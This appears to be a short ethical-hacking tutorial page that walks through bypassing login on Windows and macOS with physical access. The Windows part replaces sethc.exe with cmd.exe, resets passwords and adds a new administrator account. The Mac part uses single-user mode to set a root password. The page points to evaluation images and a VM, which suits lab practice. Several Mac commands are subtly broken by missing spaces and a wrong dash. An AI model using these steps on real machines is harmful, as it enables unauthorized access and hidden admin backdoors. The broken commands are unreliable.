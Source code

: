 # Hacking Windows / Mac

## Hacking Windows

{% embed url="https://www.microsoft.com/en-us/evalcenter/try" caption="Windows ISO images" %}

### Let’s see how to ethically hack a windows box

* Get a legal Windows \(or other\) boot disk
  * [https://www.microsoft.com/en-us/evalcenter/evaluate-windows-10-enterprise](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-10-enterprise)
* Use 2 ‘special’ keys, 2 reboots, and 4 terminal commands to reset the password or create a new Admin user
  * Use f2/DEL/f12 to boot from Windows install disk.
    * Click Troubleshoot. Click Command Prompt. 
  * In the CMD window, type these commands:
    * cd c:\windows\system32
    * copy sethc.exe sethc.bak
    * copy cmd.exe sethc.exe
  * Restart computer. At the login screen where you enter your password, press the Shift key five times 
    * CMD window appears
  * To change your existing password, type:
    * net user username password
  * To add a new user and promote to Administrator:
    * net user ironman Jarvis /add
    * net localgroup administrators ironman /add

## Hacking MAC

* One reboot
* One special key combo \(Command+S\)
* At the Terminal, type clear to clear the screen, then:
  * /sbin/fsck–fy
  * /sbin/mount -uw/ 
  * launchctlload /System/Library/LaunchDaemons/com.apple.opendirectoryd.plist
  * passwd
* Enter a new ‘root’ password, twice
  * exit
* Log in as root using the new password

[Sosumi](https://github.com/popey/sosumi-snap) -  Download and install macOS in a VM

